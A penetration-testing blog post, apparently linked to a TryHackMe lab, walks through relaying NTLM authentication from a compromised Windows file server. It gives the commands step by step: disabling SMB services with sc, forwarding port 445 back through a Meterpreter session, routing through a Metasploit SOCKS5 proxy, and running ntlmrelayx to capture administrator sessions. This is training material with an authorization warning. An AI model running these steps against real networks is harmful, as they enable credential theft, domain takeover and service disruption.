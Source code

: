 ```yaml
---
layout: post
title: Remote NTLM Relaying via Meterpreter
gh-badge:
  - star
  - fork
  - follow
tags:
 - TryHackMe
 - Windows
 - Active Directory
 - Cyber Security
comments: true
published: true
date: '2020-12-15'
---
```


### NetNTLM Relaying basics
NTLM Relaying is an Active Directory attack vector that commonly makes use of Man-In-The-Middle tools like Responder, MITM6, and others to intercept Active Directory protocols like SMB, HTTP, LDAP, etc to hijack a session and "relay" or redirect the intercepted session to the target host of your choise. 
It's important to understand that NetNTLM uses a challenge based request and response system, so you cannot replay NetNTLM traffic, only relay it. In order to Relay NetNTLM-Based traffic the Impacket developers have created a special tool called NTLMRelayX. NTLMRelayX brokers communications on our behalf and manages the challenge based request and response that enables us to successfully authenticate to a Server. It does so by holding the <insert protocol> session open and proxies the challenge that the server issues to the client, but never closes the session so you can authenticate to the server on an on-demand basis. In order to enable this functionality, you need to use the "-socks" flag, but by default, it will simply it will simply make use of other Impacket tools (like SecretsDump.py, if you relay to SMB, ACLPWN if you relay to LDAP/S, etc) but that's beyond the scope of what this article is trying to acomplish today. This seems really complicated, but is actually quite simple. I promise, I'm just bad at explaining overly technical topics. Impacket does a great job with documentation, if you'd like to learn more about NTLMRelayX, you can do so here: [https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/](https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/).

### Remote N.T.L.M. Relaying

I deem this attack vector called Remote N.T.L.M. Relaying (Never Trust Lan Man) purely because of how severe it can be. If you execute this attack on the correct host, Remote NTLM Relaying can incredbibly disruptive. This attack vector can be used on virtually any Windows host of your choosing as long as you have local Administrative rights, however, I suggest the primary target to be File Servers because these will gain the most traction. Lots of File Server Shares are often auto-mounted via Startup Scripts when a user logs onto their Account, this making it the best option in my opinion. If all users in an AD Domain have a folder that auto-mounts, you simply need to compromise the File Server, gain local Administrative Rights, and execute this attack and play the waiting game for a Domain/Enterprise Admin to log into their account and then it's game over.

### Initial Warning

As previously stated, this attack vector is incredily distruptive. It requires exactly 1 OS Restart to disable Active Directory services, and 1 OS Restart to re-enable them. If you are going to use this attack vector on an engagement, make sure you have **explicit authorization from the client**. Responsibility soley lies on the Attacker, and not myself. This is your official "This can break things, I take no responsibility for what you do. Lab it before you try it, understand the risks" and yada yada. 

### How To Preform Remote N.T.L.M. relaying

Anyways, onto the good stuff. With normal NTLM Relaying, insure you have a target selected that does not require Signing (We're going to use SMB in this demo, so I will here-on in refer to this as SMB signing exclusively). Secondly, ensure Impacket, NTLMRelayX, Meterpreter and Proxychains are all installed. All will be required for Remote NTLM relaying. Lastly, ensure that you have local administrator access, access via XFreeRDP/Remmina may break, so you should plan to fall back on rdesktop

On the victim, there's several services that need to be stopped/disabled/disabled at startup to ensure SMB services don't start, you'll need to execute the following commands:

```
sc stop netlogon
sc stop lanmanserver
sc config lanmanserver start= disabled
sc stop lanmanworkstation
sc config lanmanworkstation start= disabled
```

Ensure that all of the commands executed without failure. If successful, they should look like so:

![lanmanserver.png](https://github.com/Sq00ky/SpookySec-Blog/blob/master/img/lanmanserver.png)

After all the services are disabled, restart the victim machine. After the machine restarts, run a quick port-scan on port 445 and ensure that it is marked as "Closed". This means you successfully disabled all the SMB-related services on the victim host. Next, you want to execute a Meterpreter shell on the target host, so we can setup a Remote Port Forward. We can do so with the following command in a Meterpreter Session:

```
portfwd add -R -L 127.0.0.1 -l 445 -p 445
```

This will capture traffic destined for our victim on remote port 445 and forward it to local port 445. 

![portfwd.png](https://github.com/Sq00ky/SpookySec-Blog/blob/master/img/portfwd.png)

Next we need to mascarade the host that our traffic is coming from and make it appear that it's coming from the victim and not us. We can do this with Metasploit's SOCKS5 server. Simply execute "use auxiliary/server/socks5" and "run" and our SOCKS5 server is ready to go. Lastly, we need to add the SOCKS5 proxy to our ProxyChains config, it's default config location on Kali is /etc/proxychains.conf. We simply need to add comment the last SOCKS4 proxy out and add "socks5 127.0.0.1 1080" and we're ready to rock.

All thats left is to proxy NTLMRelayX through proxychains and wait for the hashes to roll in. In a normal corporate network it may take a bit for a user with Local Administrative access to your target to attempt to access the SMB server, but remember, if it's an automounted script, you shouldn't have to wait too long. Back to NTLMRelayX

```
proxychains ntlmrelayx.py -t smb://10.200.69.30 -smb2support
```

![success.png](https://github.com/Sq00ky/SpookySec-Blog/blob/master/img/success.png)

Some trouleshooting and tweaking may be required for this to work, this exploit is very tricky to get working and takes a lot of time and patience. Personally, I recommend looking into tweaking the Port Forwarding settings, because I think there may be a better way of doing it. Coming soon Myself and [Cryillic](https://twitter.com/Real_Cryillic) will be releasing a lab based off of this attack vector called "Holo". as of 12/15/2020 it's currently in beta testing and should be released (hopefully) by Christmas :). Keep an eye on TryHackMe's [Hacktivites Page](https://tryhackme.com/hacktivities) for an estimated release date.

As always, thanks for reading <3

